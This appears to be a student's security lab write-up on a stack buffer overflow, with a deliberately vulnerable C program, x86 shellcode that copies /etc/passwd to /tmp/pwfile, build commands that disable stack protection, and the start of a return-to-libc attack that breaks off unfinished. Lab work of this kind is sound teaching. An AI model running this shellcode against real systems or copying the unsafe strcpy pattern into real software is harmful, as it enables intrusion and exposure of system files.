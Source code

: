 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/993994e9-3fc9-4a0b-9c94-f813142612a7)





## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

*The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* 

## 5. Conduct an attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of `system()`, `exit()`, `/bin/sh` 






